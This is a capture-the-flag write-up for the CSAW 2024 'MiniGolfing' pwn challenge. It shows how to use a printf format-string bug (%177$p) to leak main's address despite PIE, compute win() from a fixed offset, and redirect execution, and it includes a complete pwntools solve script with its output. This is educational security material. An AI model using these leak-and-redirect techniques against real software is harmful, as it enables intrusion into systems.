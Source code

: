 ```yaml
---
layout: post
current: post
cover: assets/csaw/zerodaytea/plane_spotting.webp
navigation: True
title: "MiniGolfing"
date: 2024-09-09 11:59:00
tags: [csaw, pwn]
class: post-template
subclass: 'post'
author: ZeroDayTea
---
```


## Looking at the Problem

We're providing with a binary ``golf`` so let's first begin by seeing what protections we're working with.
```sh
$ checksec ./golf
[*] '/home/zerodaytea/CTFs/csaw2024/minigolfing/golf'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No

```

And let's take a look at the decomp as well with Binary Ninja
![A photo of the decomp](/assets/csaw/zerodaytea/golfdecomp.webp)

Only two functions are of particular notice that being ``main()`` and ``win()``. The ``win()`` function clearly reads the flag file but is never called explicitly so it looks like we'll need to find a way to jump to it.

Fortunately at the end of ``main()``, ``scanf()`` is used to read in an address and then jump to it with the following code segment
```c
00001360      __isoc99_scanf(&data_2094, &var_18);
00001365      int64_t rax_5 = var_18;
0000137c      printf("Ok jumping to that address...");
00001385      rax_5();
```

Unfortunately for us, however, as we saw earlier, PIE is enabled on the binary meaning the position of the binary in memory will be randomized every time it is started. We'll need to find a way to leak the address of ``win()`` in order to pass it into ``scanf()``.

Fortunately, there appears to be a simple format string printf vulnerability in
```c
00001309      fgets(&var_518, 0x400, stdin);
0000131d      printf("hello: ");
00001331      printf(&var_518);
```

As ``printf()`` is called on our input with no format specifier, we can pass our own format specifier as input and leak values earlier on the stack. Since ``win()`` is never invoked, it's address will likely not be anywhere on the stack, but the address of ``main()`` surely will be and we can use the fact that ``win()`` and ``main()`` will always be at consistent offsets away from each other to our advantage. 

I'll use gdb and pass in the ``%p`` format specifier to leak stack data as pointers. Looking at the address space with ``info proc mappings`` we see
![memory space](/assets/csaw/zerodaytea/memoryspace.webp)
So we should be looking for addresses of the format ``0x55555555...`` 

Passing in as many ``%p``'s into the printf call as we can we can then start looking for something matching. Note that this can be more easily done but just iterating with ``%{i}$p`` until we find something like the address of main but because our buffer is big enough here this works as well.

![format string](/assets/csaw/zerodaytea/formatstring.webp)
We can use ``info functions main`` in gdb to get the address of main and win

```
pwndbg> info functions main
All functions matching regular expression "main":
...
Non-debugging symbols:
0x0000555555555223  main
...
pwndbg> info functions win
All functions matching regular expression "win":
0x0000555555555209  win
```

Looking back at our leaked addresses we spot ``0x555555555223`` as the 177th address printed (quick trick is to count the number of periods appearing between the stack leaks).

Now we now that even outside of gdb we can always always use the format specifier ``%177$p`` to leak the address of main. Since we see that ``win()`` is just ``0x555555555223 - 0x555555555209 = 0x1a`` offset away from ``main()`` we can simply leak the address of main and use the offset to calculate the address we want to jump to.

Writing up our solve script to do just that we get something like
```python
#!/usr/bin/env python3

from pwn import *

elf = ELF("./golf")
context.binary = elf

def conn():
    if args.GDB:
        script = """
        br main
        c
        """
        p = gdb.debug(elf.path, gdbscript=script)
    elif args.REMOTE:
        p = remote("addr", 1337)
    else:
        p = process(elf.path)
    return p

def main():
    p = conn()

    p.sendlineafter("name?", "%177$p")
    output = p.recvline()
    main_addr = output.strip()[7:]
    main_addr_int = int(main_addr, 16)
    win_addr_int = main_addr_int - 0x1a
    win_addr = hex(win_addr_int)
    print(win_addr)

    p.sendlineafter("aim at!:", win_addr)

    p.interactive()

if __name__ == "__main__":
    main()
```

If you are unfamiliar with pwntools scripts just take note of the main function where the program is started up, the format specifier is sent, the address of main is parsed from the result, the offset is subtracted, and the resulting address is sent back to the running binary.

Running our solve we get a flag!
```
$ python3 solve.py 
[*] '/home/zerodaytea/CTFs/csaw2024/minigolfing/golf'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Starting local process '/home/zerodaytea/CTFs/csaw2024/minigolfing/golf': pid 29025
0x56f233f74209
[*] Switching to interactive mode
 Ok jumping to that address...csawctf{test_flag}
[*] Got EOF while reading in interactive
```

Simply replacing the ``p = remote()`` call above we can leak the remote flag just as easily.
